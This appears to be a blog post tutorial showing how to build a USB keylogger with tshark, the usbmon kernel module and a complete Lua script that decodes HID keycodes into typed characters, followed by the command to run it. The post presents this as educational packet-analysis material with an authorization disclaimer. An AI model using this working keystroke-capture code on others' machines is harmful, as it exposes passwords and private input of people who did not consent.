 ```yaml
---
layout: post
title:  "Using tshark as a keylogger"
categories: linux tshark hacking
---
```


Have you ever wondered how keyloggers work at a network packet level? In this post, we'll explore how to create a simple USB keylogger using tshark and Lua scripting. This implementation is based on examples from the book "Wireshark for Security Professionals" and serves as an educational demonstration of USB packet analysis.

> **Note**: This tutorial is for educational purposes only. Always ensure you have proper authorization before monitoring any system or network traffic.

## Prerequisites

This tutorial was tested on a Kali Linux ARM64 VM. You'll need:
- Kali Linux (or any Linux distribution)
- tshark installed
- Root access

## Setting Up the Environment

First, install tshark if you haven't already:

```bash
sudo apt install tshark
```

Next, we need to enable USB monitoring. This is done by loading the usbmon kernel module:

```bash
sudo modprobe usbmon
```

## The Keylogger Script

Create a file named `keysniffer.lua` with the following Lua script. This script processes USB packets and maps them to keystrokes using the USB HID Usage Tables specification:

```lua
--we want to capture usb data for each packet
local usbdata = Field.new("usb.capdata")
--the listener function, will create our tap
local function init_listener()
  print("[*] Started KeySniffing…\n")
  --only listen for usb packets
  local tap = Listener.new("usb")

  --called for every packet meeting the filter set for the Listener(), so usb packets
  function tap.packet(pinfo, tvb)
    --list from http://www.usb.org/developers/devclass_docs/Hut1_11.pdf
    local keys = "????abcdefghijklmnopqrstuvwxyz1234567890\n??\t -=[]\\?;??,./"
    --get the usb.capdata
    local data = usbdata()
    --make sure the packet actually has a usb.capdata field
    if data ~= nil then
      local keycodes = {}
      local i = 0
      --match on everything that is a hex byte %x and add it to the table
      --this works b/c data is in format %x:%x:%x:%x
      --it is effectively pythons split(':') function
      for v in string.gmatch(tostring(data), "%x+") do
        i = i + 1
        keycodes[i] = v
      end
      --make sure we got a keypress, which is the 3rd value
      --this works on a table b/c we are using int key values
      if #keycodes < 3 then
        return
      end
      --convert the hex key to decimal
      local code = tonumber(keycodes[3], 16) + 1
      --get the right key mapping
      local key = keys:sub(code, code)
      --as long as it isn't '?' lets print it to stdout
      if key ~= '?' then
        io.write(key)
        io.flush()
      end
    end
  end

  --this is called when capture is reset
  function tap.reset()
    print("[*] Done Capturing")
  end

  --function called at the end of tshark run
  function tap.draw()
    print("\n\n[*] Done Processing")
  end
end

init_listener()
```

## Running the Keylogger

With everything set up, you can now run the keylogger using:

```bash
tshark -Q -i usbmon3 -Xlua_script:keysniffer.lua
```

Now press some keys on the keyboard on interface 3 and see the output in the terminal.

The command breakdown:
- `-Q`: Quiet mode (no packet information displayed)
- `-i usbmon3`: Monitor USB interface 3 (you can change this to usbmon0, usbmon1, etc. use lsusb to find your device interface)
- `-Xlua_script:keysniffer.lua`: Load our Lua script

## How It Works

The script works by:
1. Creating a listener for USB packets
2. Extracting the USB capture data from each packet
3. Parsing the keycodes using the USB HID Usage Tables
4. Converting the keycodes to their corresponding characters
5. Outputting the captured keystrokes in real-time

## References

This implementation is based on examples from ["Wireshark for Security Professionals"](https://computerscience.unicam.it/marcantoni/reti/laboratorio_wireshark/Wireshark%20for%20Security%20Professionals%20-%20Using%20Wireshark%20and%20the%20Metasploit%20Framework.pdf), which provides excellent insights into network security analysis using Wireshark and related tools.

